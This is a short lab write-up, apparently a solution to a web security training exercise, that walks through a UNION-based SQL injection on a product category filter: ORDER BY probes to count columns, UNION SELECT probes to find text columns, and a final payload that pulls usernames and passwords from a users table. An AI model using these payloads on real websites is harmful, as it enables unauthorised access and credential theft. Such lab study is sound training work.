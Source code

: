 # Lab 05

## SQLi - Product category filter

**Goal**: Retrieve username and password from users table.

**Analysis**

**Step 1**

- Find the number of columns of the compromised table

- The "ORDER BY" clause could be used to perform this

- The following returns an internal server error if the number passed after the "ORDER BY" clause exceeds the number of columns

> ' ORDER BY 1--

> ' ORDER BY 2--

- The followng will return an Internal Server Error

> ' ORDER BY 3--

**Step 2**

- Find the data type of each column

- The "UNION" clause could be used to perform this

- The following returns an internal server error if the data type passed after the "UNION" caluse does not match the correct data type of the column

> ' UNION SELECT 'str', NULL--

> ' UNION SELECT 'str', 'str'--

**step 3**

- Use the previous information to extract the administrator's password

> ' UNION SELECT username, password FROM users--